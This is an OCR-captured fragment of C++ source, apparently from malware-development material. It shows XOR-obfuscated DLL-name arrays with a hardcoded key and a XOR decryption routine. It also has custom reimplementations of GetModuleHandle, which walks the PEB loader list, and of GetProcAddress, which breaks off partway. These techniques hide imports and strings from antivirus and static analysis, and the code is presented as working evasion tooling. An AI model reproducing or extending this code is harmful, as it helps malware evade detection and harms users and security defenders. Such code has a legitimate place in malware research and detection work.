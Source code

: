 ```cpp
{ 0x27, 0x1c, 0x13, 0x17, 0x1e, 0x10, 0x19, 0x20, 0xf, 0x7, 0x1e, 0x16 };
unsigned char udll[] = 
{ 0x4, 0x6, 0x4, 0x11, 0x58, 0x43, 0x5b, 0x5, 0xf, 0x7 };
unsigned char kdll[] = 
{ 0x1a, 0x10, 0x13, 0xd, 0xe, 0x1d, 0x46, 0x53, 0x4d, 0xf, 0x1d, 0x19 };

char secretKey[] = "quackquack";

// encryption / decryption XOR function
void d(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}

// custom implementation
HMODULE myGM(LPCWSTR lModuleName) {

  // obtaining the offset of PPEB from the beginning of TEB
  PEB* pPeb = (PEB*)__readgsqword(0x60);

  // obtaining the address of the head node in a linked list 
  // which represents all the models that are loaded into the process.
  PEB_LDR_DATA* Ldr = pPeb->Ldr;
  LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList; 

  // iterating to the next node. this will be our starting point.
  LIST_ENTRY* pStartListEntry = ModuleList->Flink;

  // iterating through the linked list.
  WCHAR mystr[MAX_PATH] = { 0 };
  WCHAR substr[MAX_PATH] = { 0 };
  for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; 
  pListEntry = pListEntry->Flink) {

    // getting the address of current 
    // LDR_DATA_TABLE_ENTRY (which represents the DLL).
    LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)
    ((BYTE*)pListEntry - sizeof(LIST_ENTRY));

    // checking if this is the DLL we are looking for
    memset(mystr, 0, MAX_PATH * sizeof(WCHAR));
    memset(substr, 0, MAX_PATH * sizeof(WCHAR));
    wcscpy_s(mystr, MAX_PATH, pEntry->FullDllName.Buffer);
    wcscpy_s(substr, MAX_PATH, lModuleName);
    if (cmpUnicodeStr(substr, mystr)) {
      // returning the DLL base address.
      return (HMODULE)pEntry->DllBase;
    }
  }

  // the needed DLL wasn't found
  printf("failed to get a handle to %s\n", lModuleName);
  return NULL;
}

FARPROC myGPA(HMODULE hModule, LPCSTR lpProcName) {
  PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
  PIMAGE_NT_HEADERS ntHeaders = 
  (PIMAGE_NT_HEADERS)((BYTE*)hModule + dosHeader->e_lfanew);
```